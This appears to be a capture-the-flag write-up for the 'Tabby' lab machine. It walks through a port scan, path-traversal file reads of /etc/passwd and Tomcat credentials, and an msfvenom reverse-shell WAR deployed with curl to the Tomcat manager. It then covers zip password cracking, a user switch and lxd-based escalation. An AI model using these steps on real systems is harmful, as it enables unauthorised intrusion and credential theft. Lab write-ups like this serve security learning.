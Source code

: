 # Tabby

## Enumeration

### Scan Report

```text
Host is up (0.18s latency).
Not shown: 996 closed ports
PORT     STATE    SERVICE   VERSION
22/tcp   open     ssh       OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http      Apache httpd 2.4.41 ((Ubuntu))
5225/tcp filtered hp-server
8080/tcp open     http      Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



### LFI Vulnerability

[http://megahosting.htb/news.php?file=statement](http://megahosting.htb/news.php?file=statement) seems vulnerable to LFI. Attempting to gain some more information.

[http://megahosting.htb/news.php?file=../../../../../etc/passwd](http://megahosting.htb/news.php?file=../../../../../etc/passwd)

```text
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false sshd:x:111:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false tomcat:x:997:997::/opt/tomcat:/bin/false mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false ash:x:1000:1000:clive:/home/ash:/bin/bash 
```

We can check for users here. Found one other user other than root: **ASH**

**Browsing to 8080 gives us information about tomcat-users.xml**

URL: /news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml

This will read the file. Location was fetched after isntalling tomcat and then searching for tomcat-users.xml

## Exploitation

reading the file we get to know we have access to manager-script. This gives us access to deploy using HTTP Requests.

### **Create Shell**

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.12 LPORT=9000 -f war > shell2.war  
```

### **Upload Shell**

```text
curl -H "Authorization: Basic dG9tY2F0OiQzY3VyZVA0czV3MHJkMTIzIQ==" --upload-file shell2.war --request PUT "http://megahosting.htb:8080/manager/text/deploy?path=/docs3&update=true"
```

Browse to the endpoint to get a reverse shell using netcat

### Post Exploitation

Run linpeas.

 We will find a backup file.

```text
http://megahosting.htb/files/16162020_backup.zip
```

Download it and crack using frackzip

### Fcrackzip

```text
 fcrackzip -D -p ../../tools/rockyou.txt backup.zip 
```

### Investigate the files

Nothing interesting found. Where else can we use tha password..

### ASH

run "su ash" and enter the password of the backup file. Viola!





### **Escalating to root**

We can see lxd group in user and groups in linpeas.

{% page-ref page="../../../linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.md" %}




